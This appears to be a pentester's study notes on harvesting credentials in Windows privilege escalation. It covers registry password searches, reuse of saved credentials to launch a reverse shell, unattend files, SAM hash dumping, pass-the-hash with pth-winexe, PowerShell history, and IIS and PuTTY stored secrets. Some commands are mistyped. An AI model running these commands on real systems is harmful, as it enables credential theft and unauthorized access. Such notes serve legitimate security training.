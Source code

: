 ### Registry
Can can contain password for unsecure services.
[[Commands#reg]]
```powershell
# search for password in either keyname or keyvalue recursively
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Saved Creds
- Windows can allow user to save their password with runas.exe command.
- Can be queried with:
```powershell
# list already saved key
cmkey /list

# use the cred to run reverse shell as that user.
run /savecred /user:<username> C\reverse.exe

```

### Unattended Windows Installation
When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
```xml
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```
As part of these files, you might encounter credentials:
```powershell
dir /s *pass* == *.config
```
- Searching for files that contains the word `password` and also ends in either `.xml` `.ini` or `.txt`
```powershell
findstr /si password *.xml *.ini *.txt
```

### SAM
- Security Accounts Manager
- Used for storing password hashes
- Encrypted using key found inside the file `SYSTEM`
- If SAM and SYSTEM is readable, it is possible to read hashes
- Located at `C:\Windows\System32\config` directory
- Locked while windows is running.
- Backup can be found at 
```powershell
C:\Windows\Repair
C:\windows\System32\config\RegBack
```
- Creddump7 can be used to fetch hashes from both the field.
> Hash that start with `31d6` means that either the account has no password or the account is deactivated.
- If hashes are not crackable, path-the-hash method can be used to login to the system.
- pth-winexe version of the winexe can be used to perform pass-the-hash attacks
```powershell
# hash should be both NL and LM hash
# add --system to get a SYSTEM level shell 
.\pth-winexe -U 'admin%<hash>' //<ip> cmd.exe
```

### Powershell History
Can be found in the below location: 
cmd:
```cmd
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
powershell:
```powershell
$Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### IIS Configuration Files
- Default web server in on windows installation.
- Configuration is stored in `web.config`, preferebly in the variable `connectionstring`
- `web.config` is stored in:
```powershell
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

### PuTTY
- Putty can store proxy configuration in registry keys that includes cleartext authentication details.
- They are stored in :
```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
